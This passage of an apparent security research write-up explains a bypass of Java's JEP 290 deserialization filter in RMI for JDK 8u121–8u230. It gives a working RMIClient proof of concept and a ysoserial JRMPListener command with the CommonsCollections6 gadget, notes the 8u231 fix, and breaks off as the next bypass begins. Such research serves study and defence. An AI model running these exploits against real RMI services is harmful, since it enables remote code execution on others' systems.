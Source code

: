 ```java
package org.h3rmesk1t.jep290.bypass8u230;

import sun.rmi.server.UnicastRef;
import sun.rmi.transport.LiveRef;
import sun.rmi.transport.tcp.TCPEndpoint;

import java.rmi.AlreadyBoundException;
import java.rmi.RemoteException;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;
import java.rmi.server.ObjID;
import java.rmi.server.RemoteObjectInvocationHandler;
import java.util.Random;

/**
 * @Author: H3rmesk1t
 * @Data: 2022/2/4 2:15 am
 */
public class RMIClient {

    public static void main(String[] args) throws RemoteException, AlreadyBoundException {

        Registry registry = LocateRegistry.getRegistry(2222);
        ObjID id = new ObjID(new Random().nextInt());
        TCPEndpoint te = new TCPEndpoint("127.0.0.1", 9999);
        UnicastRef ref = new UnicastRef(new LiveRef(id, te, false));
        RemoteObjectInvocationHandler obj = new RemoteObjectInvocationHandler(ref);
        registry.bind("demo", obj);
    }
}
```
- ysoserial

```bash
java -cp ~/Desktop/ysoserial.jar ysoserial.exploit.JRMPListener 9999 CommonsCollections6 'open /System/Applications/Calculator.app'
```

![bypass jdk8u121-jdk8u130](./images/41.png)

### Fixed
The `DGCImpl_Stub#dirty` method of `JDK8u231` version and above has an additional `setObjectInputFilter` process, resulting in `JEP 290` being able to check` again.

![](./images/58.png)

## 8u231~8u240
When `ByPass 8u121~8u230`, the `UnicastRef` class uses a layer of wrapping, and initiates a `JRMPListener` request through `DGCClient` to `JRMPListener`. In the `jdk8u231` version and above `setObjectInputFilter` process, it will be checked by `JEP290`. The `Gadget` of `ByPass 8u231~8u240` is as follows:

